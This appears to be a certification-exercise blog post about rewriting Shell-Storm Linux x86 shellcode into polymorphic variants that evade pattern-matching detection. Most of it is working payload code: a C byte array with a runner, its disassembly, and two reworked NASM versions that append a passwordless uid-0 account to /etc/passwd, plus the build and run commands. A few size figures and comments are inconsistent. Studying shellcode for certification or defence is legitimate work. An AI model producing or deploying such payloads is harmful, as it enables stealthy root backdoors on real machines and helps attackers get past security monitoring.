 ```yaml
---
layout: single
title: Shell-Storm Polymorphism
date: 2019-10-12
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
The main goal is
Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching 
- The polymorphic versions cannot be larger 150% of the exisSng shellcode 
- Bonus points for making it shorter in length than original

## Linux/x86 - adds a root user no-passwd to /etc/passwd - 83 bytes 
First shellcode is for add uid 0 gid 0 in /etc/passwd, we start from [this shellcode](http://shell-storm.org/shellcode/files/shellcode-548.php) of 83 bytes and try to realize a new smaller shellcode.<br>
```C
/* Linux x86 shellcode, to open() write() close() and */
/* exit(), adds a root user no-passwd to /etc/passwd */
/* By bob from dtors.net */

#include <stdio.h>

char shellcode[]=
		"\x31\xc0\x31\xdb\x31\xc9\x53\x68\x73\x73\x77"
		"\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74"
		"\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89"
		"\xc3\x31\xc0\x31\xd2\x68\x6e\x2f\x73\x68\x68"
		"\x2f\x2f\x62\x69\x68\x3a\x3a\x2f\x3a\x68\x3a"
		"\x30\x3a\x30\x68\x62\x6f\x62\x3a\x89\xe1\xb2"
		"\x14\xb0\x04\xcd\x80\x31\xc0\xb0\x06\xcd\x80"
		"\x31\xc0\xb0\x01\xcd\x80";

int
main()
{
        void (*dsr) ();
        (long) dsr = &shellcode;
        printf("Size: %d bytes.\n", sizeof(shellcode)); 
        dsr();
}
```
Now we check the Assembly using ndisasm
```
00000000  31C0              xor eax,eax
00000002  31DB              xor ebx,ebx
00000004  31C9              xor ecx,ecx
00000006  53                push ebx
00000007  6873737764        push dword 0x64777373
0000000C  68632F7061        push dword 0x61702f63
00000011  682F2F6574        push dword 0x74652f2f
00000016  89E3              mov ebx,esp
00000018  66B90104          mov cx,0x401
0000001C  B005              mov al,0x5
0000001E  CD80              int 0x80
00000020  89C3              mov ebx,eax
00000022  31C0              xor eax,eax
00000024  31D2              xor edx,edx
00000026  686E2F7368        push dword 0x68732f6e
0000002B  682F2F6269        push dword 0x69622f2f
00000030  683A3A2F3A        push dword 0x3a2f3a3a
00000035  683A303A30        push dword 0x303a303a
0000003A  68626F623A        push dword 0x3a626f62
0000003F  89E1              mov ecx,esp
00000041  B214              mov dl,0x14
00000043  B004              mov al,0x4
00000045  CD80              int 0x80
00000047  31C0              xor eax,eax
00000049  B006              mov al,0x6
0000004B  CD80              int 0x80
0000004D  31C0              xor eax,eax
0000004F  B001              mov al,0x1
00000051  CD80              int 0x80
```
Ok we have some chances here, first the ```close()``` syscall isn't necessary as we saw in the msfvenon adduser payload, next we can clean some eax and edx register xor and change it with the ```mul``` that do the same thing, last we can change the ```push``` and  ```push dword``` instructions with ```mov```. In this case we have a good polymorphism but the shellcode lenght is 107 bytes against the original 86

```nasm
        xor ebx, ebx
        xor ecx, ecx
        mov cx, 0x401
        mul ebx                           ; this put 0 in eax and edx
        mov [esp-4], ebx                  ; same as push
        mov dword [esp-8], 0x64777373     ; same as push
        mov dword [esp-12], 0x61702f63    ; same as push
        mov dword [esp-16], 0x74652f2f    ; same as push
        sub esp, 16
        lea ebx, [esp]                    ; same as mov the stack pointer to ebx
        mov al, 0x5
        int 0x80
        xchg ebx, eax                     ; move fd pointer in ebx
        mul edx                           ; this put 0 in eax and edx
        mov dword [esp-4], 0x68732f6e     ; hs/nib/:/::0:0::resU
        mov dword [esp-8], 0x69622f3a     ;
        mov dword [esp-12], 0x2f3a3a30    ;
        mov dword [esp-16], 0x3a303a3a    ;
        mov dword [esp-20], 0x72657355    ;
        sub esp, 20
        lea ecx, [esp]                    ; same as mov the stack pointer to ecx
        mov dl, 0x14
        mov al, 0x4
        int 0x80                    ; exit syscall now, the close syscall isn't necessary
        sub al, 0x13                ; write() return the number of byte written (14) 14 - 13 = 1
        int 0x80
```
```bash
root@slae32-lab:# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@slae32-lab:# ./shellcode 
Shellcode Length:  107

```
If we leave the ```push``` and  ```push dword``` instructions the lenght is 74 bytes, less than original.

```nasm
       xor ebx, ebx
        xor ecx, ecx
        mov cx, 0x401
        mul ebx                           ; this put 0 in eax and edx
        push ebx                  
        push dword 0x64777373     
        push dword 0x61702f63    
        push dword 0x74652f2f    
        lea ebx, [esp]                    ; same as mov the stack pointer to ebx
        mov al, 0x5
        int 0x80
        xchg ebx, eax                     ; move fd pointer in ebx
        mul edx                           ; this put 0 in eax and edx
        push dword 0x68732f6e             ; hs/nib/:/::0:0::resU
        push dword 0x69622f3a             ;
        push dword 0x2f3a3a30             ;
        push dword 0x3a303a3a             ;
        push dword 0x72657355             ;
        lea ecx, [esp]                    ; same as mov the stack pointer to ecx
        mov dl, 0x14
        mov al, 0x4
        int 0x80                    ; exit syscall now, the close syscall isn't necessary
        sub al, 0x13                ; write() return the number of byte written (14) 14 - 13 = 1
        int 0x80
```
```bash
root@slae32-lab:# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@slae32-lab:# ./shellcode 
Shellcode Length:  74

```